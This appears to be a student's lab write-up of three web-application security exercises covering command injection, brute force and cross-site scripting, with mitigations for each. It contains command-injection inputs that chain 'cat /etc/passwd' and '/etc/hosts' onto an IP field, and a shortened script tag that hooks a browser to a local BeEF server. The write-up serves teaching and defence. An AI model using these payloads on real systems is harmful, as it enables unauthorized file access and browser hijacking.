






### Web Application 1: Your Wish is My Command Injection

* Command to show contents of ```etc/passwd``` : ``` 8.8.8.8 &&  cat /../../etc/passwd ```
  

* Command to show contents of ```etc/hosts ``` : ``` 8.8.8.8 &&  cat /../../etc/hosts ```
  

#### Mitigations
* Add client side data validation that uses a RegEx to validate that only a IP address is being entered. 
* Add service side data validation that only allows for a valid IPv4 ip address to be used. 
* I would do both of these cause you can never trust the user input validation and should always be double checking server side

### Web Application 2: A Brute Force to Be Reckoned With
 

#### Mitigations
* Add a max retry count for authenticating
* Expire passwords after thirty days of inactivity or after ninety days if actively used
* Implent MFA or other 2FA system. - Really important for any administration systems

### Web Application 3: Where's the BeEF?
* To get around the character lenght limitations on the text box, I just shortened the provided script tag ``` <script src="http://127.0.0.1:3000/hook.js"></script> ```  to be ``` <script src="http://127.0.0.1:3000/hook.js"/> ```. Since there is not Javascript within the body of the script tag you can just add a forward slash at the end of the script tag to close it.
  








#### Mitigations
* URL encode the message so that rendering it directly to the screen doesn't allow for Javascript to be executed.
* Have data validation client side and server side on the user input
